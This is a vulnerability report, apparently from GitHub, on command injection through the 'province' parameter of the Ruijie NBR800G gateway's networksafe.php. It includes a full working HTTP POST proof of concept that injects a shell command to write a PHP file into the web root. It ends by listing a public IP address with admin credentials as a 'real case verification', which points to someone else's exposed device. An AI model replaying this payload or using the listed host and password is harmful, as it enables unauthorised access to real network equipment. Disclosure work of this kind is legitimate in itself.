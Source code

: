 # Ruijie NBR800G gateway has command execution vulnerability

## Overview
Manufacturer's address：[(https://222.170.147.52:4430/)]
## Vulnerability impact
Ruijie NBR800G gateway NBR_RGOS_11.1(6)B4P9
## Vulnerability location
/itbox_pi/networksafe.php
## Vulnerability details
<br /> Ruijie Networks is a professional network manufacturer with a full range of network equipment product lines and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.
<br /> Ruijie NBR800G gateway has a command execution vulnerability. An attacker can obtain server permissions through the vulnerability, causing the server to crash.
<br /> This vulnerability is the result of code audit, so no Internet cases are provided. The detailed steps of code analysis and part of the vulnerability source code in the document are for reference only.
## Vulnerability verify
[(https://222.170.147.52:4430/)]
<br /> 1.Code analysis
<br /> The province parameter is controllable, and the splicing is brought to ` `, causing the command to be executed.
<br />![image](https://github.com/user-attachments/assets/bcde24bf-934f-4603-ae09-31aa66c2b410)
<br /> 2.Local reproduction
<br /> Login interface
<br /> ![image](https://github.com/user-attachments/assets/bd645fc3-c7b0-43b7-849b-e7777e4c582c)
<br /> Product version certificate
<br /> ![image](https://github.com/user-attachments/assets/93e3896a-13eb-447e-904f-2c1d1032c8eb)
<br /> The command can be executed directly through the province parameter. Since exec has no echo, here we pass the whoami test and write it into 1.php.
<br /> POC
<br /> POST /itbox_pi/networksafe.php?a=list HTTP/1.1
<br /> Host: 127.0.0.1:4430
<br />Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=vh60slsfgs4krrhfqhho0h6f31; user=admin
<br />User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
<br />Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
<br />Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
<br />Accept-Encoding: gzip, deflate, br
<br />Upgrade-Insecure-Requests: 1
<br />Sec-Fetch-Dest: document
<br />Sec-Fetch-Mode: navigate
<br />Sec-Fetch-Site: none
<br />Sec-Fetch-User: ?1
<br />X-Forwarded-For: 192.168.12.3
<br />If-Modified-Since: Tue, 04 Jul 2017 08:28:20 GMT
<br />Priority: u=0, i
<br />Te: trailers
<br />Connection: keep-alive
<br />Content-Type: application/x-www-form-urlencoded
<br />Content-Length: 25
<br />province=|echo `id`>1.php
<br />![image](https://github.com/user-attachments/assets/ae773394-a255-4630-8acb-1fc63df9fa2b)
<br />Visit /itbox_pi/1.php and execute id
<br />![image](https://github.com/user-attachments/assets/c0b68ba4-dc31-4c0a-a1ad-95556b511fbd)
<br />To facilitate review and retest, a real case verification is provided.
<br /> https://222.170.147.52:4430/
<br /> admin/123123aA

